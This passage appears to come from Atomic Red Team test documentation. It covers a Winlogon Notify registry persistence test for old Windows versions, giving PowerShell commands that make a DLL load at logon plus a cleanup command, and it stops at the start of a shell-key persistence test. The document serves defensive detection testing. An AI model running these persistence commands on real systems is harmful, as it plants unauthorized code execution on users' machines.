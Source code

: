 <br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell

PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon logon.

Please note that Winlogon Notifications have been removed as of Windows Vista / Windows Server 2008 and that this test thus only applies to erlier versions of Windows.

**Supported Platforms:** Windows

**auto_generated_guid:** d40da266-e073-4e5a-bb8b-2b385023e5f9

#### Inputs:

| Name                | Description                                 | Type   | Default Value                                             |
| ------------------- | ------------------------------------------- | ------ | --------------------------------------------------------- |
| binary_to_execute   | Path of notification package to execute     | path   | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll |
| function_to_execute | Function in notification package to execute | string | AtomicTestFunction                                        |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "DllName" "#{binary_to_execute}" -Type ExpandString -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Logon" "#{function_to_execute}" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Impersonate" 1 -Type DWord -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Asynchronous" 0 -Type DWord -Force
```

#### Cleanup Commands:

```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - Winlogon HKLM Shell Key Persistence - PowerShell

PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.
